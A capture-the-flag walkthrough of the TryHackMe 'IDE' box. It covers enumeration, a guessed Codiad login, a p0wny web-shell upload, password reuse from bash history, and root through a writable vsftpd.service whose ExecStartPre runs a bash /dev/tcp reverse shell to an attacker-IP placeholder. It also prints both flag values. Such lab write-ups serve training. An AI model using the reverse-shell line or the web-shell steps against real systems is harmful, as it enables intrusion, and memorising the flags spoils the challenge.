


---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - linux
  - sudo-abuse
  - unrestricted-file-upload
  - default-credentials
---

# IDE


**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [IDE](https://tryhackme.com/room/ide)  

## Description
"An easy box to polish your enumeration skills!
Gain a shell on the box and escalate your privileges!"

## Enumeration
### Port Scanning
```bash
ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -A -T4 TARGET_IP_ADDRESS
```
```
Nmap scan report for 10.128.165.27
Host is up (0.018s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.133.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### FTP Enumeration
```
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||28966|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd "..."
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||57576|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> get "-"
local: - remote: -
229 Entering Extended Passive Mode (|||23030|)
150 Opening BINARY mode data connection for - (151 bytes).
100% |***************************************************************************************************************|   151        2.44 MiB/s    00:00 ETA
226 Transfer complete.
151 bytes received in 00:00 (8.44 KiB/s)
ftp> quit
```
**Notes**  
Contents of "-" file:
  
*Discovered user name: "john"*

### HTTP Enumeration (80)
```bash
ffuf -u http://<TARGET_IP_ADDRESS>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
gobuster dir -u http://<TARGET_IP_ADDRESS> -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,txt,js
```
**Notes**  
- No `robots.txt` or `sitemap` files  
- Home page is default Apache page  
- Nothing interesting in the source code  
- No interesting hidden directories

### HTTP Enumeration (62337)
```bash
ffuf -u http://<TARGET_IP_ADDRESS>:62337/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
gobuster dir -u http://<TARGET_IP_ADDRESS>:62337 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,txt,js
```
**Notes**  
- No `robots.txt` or `sitemap` files  
- Home page is a login page  
- Link to some JS scripts in the source code  
- Directories returned by fuzzing but return 301 HTTP responses  

### Vulnerability enumeration
```bash
searchsploit vsftp 3.0.3	# Only result: DoS
searchsploit OpenSSH 7.6p1	# Results: DoS and username enumeration
searchsploit httpd 2.4.29	# Only result: DoS
```

## Foothold
**Action(s)**  
Using username of "john" (from discovered note) and "password" (guess! Given contents of discovered note), login to website on 62337 is successful  
Exploring interface proves ability to upload files (right-click on directory underneath "Explore")  
[p0wnyshell](https://github.com/flozz/p0wny-shell) uploaded  
Location of uploaded file displayed (once file is opened) at the bottom of the screen:  
  
Navigating to `/codiad_projects/<file_name>.php` results in successful web shell access
```
www-data@ide:…/html/codiad_projects:$ ls /home
drac

www-data@ide:…/html/codiad_projects:$ ls /home/drac
user.txt

www-data@ide:…/html/codiad_projects:$ ls -al /home/drac
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4  2021 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-r-------- 1 drac drac   33 Jun 18  2021 user.txt

www-data@ide:…/html/codiad_projects:$ cat /home/drac/.bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```
Check for password reuse with SSH:
```
ssh drac@<TARGET_IP_ADDRESS>
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
drac@<TARGET_IP_ADDRESS>'s password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 23 11:03:40 UTC 2026

  System load:  0.22              Processes:           117
  Usage of /:   53.0% of 8.79GB   Users logged in:     0
  Memory usage: 50%               IP address for ens5: 10.128.165.27
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

69 packages can be updated.
1 update is a security update.


Last login: Wed Aug  4 06:36:42 2021 from 192.168.0.105
drac@ide:~$ ls
user.txt
drac@ide:~$ cat user.txt
```
??? success "user.txt"
	02930d21a8eb009f6d26361b2d24a466

## Privilege Escalation
```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
```
Research finds [Sudo Service Privilege Escalation article](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-service-privilege-escalation)
```bash
find / -name "vsftpd.service" -exec ls -l {} \; 2>/dev/null
#REDACTED FOR BREVITY
total 0
-r--r--r-- 1 root root 0 Oct 24 11:35 cgroup.controllers
-r--r--r-- 1 root root 0 Oct 24 11:31 cgroup.events
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.max.depth
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.max.descendants
-rw-r--r-- 1 root root 0 Oct 24 11:31 cgroup.procs
-r--r--r-- 1 root root 0 Oct 24 11:35 cgroup.stat
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.subtree_control
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.threads
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.type
-r--r--r-- 1 root root 0 Oct 24 11:35 cpu.stat
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service
lrwxrwxrwx 1 root root 34 Jun 18  2021 /etc/systemd/system/multi-user.target.wants/vsftpd.service -> /lib/systemd/system/vsftpd.service
-rw-r--r-- 1 root root 0 Jun 18  2021 /var/lib/systemd/deb-systemd-helper-enabled/multi-user.target.wants/vsftpd.service
```
Update `ExecStartPre` of writable config file for `vsftpd` to:  
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP_ADDRESS>/4444 0>&1'

[Install]
WantedBy=multi-user.target
```
On attacker machine:  
`nc -lvnp 4444`  
On target machine:
```bash
systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.                                                                                                                                        
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
sudo /usr/sbin/service vsftpd restart 
```
On attacker machine:
```bash
Listening on 0.0.0.0 4444
Connection received on 10.130.140.134 42388
bash: cannot set terminal process group (1839): Inappropriate ioctl for device
bash: no job control in this shell
ls -al /root
total 40
drwx------  6 root root 4096 Jun 18  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
lrwxrwxrwx  1 root root    9 Jun 18  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jun 18  2021 .cache
drwx------  3 root root 4096 Jun 18  2021 .gnupg
drwxr-xr-x  3 root root 4096 Jun 18  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Jun 18  2021 root.txt
-rw-r--r--  1 root root   66 Jun 18  2021 .selected_editor
drwx------  2 root root 4096 Jun 17  2021 .ssh
cat /root/root.txt
```
??? success "root.txt"
	ce258cb16f47f1c66f0b0b77f4e0fb8d

**Date completed:** 24/10/26  
**Date published:** 24/10/26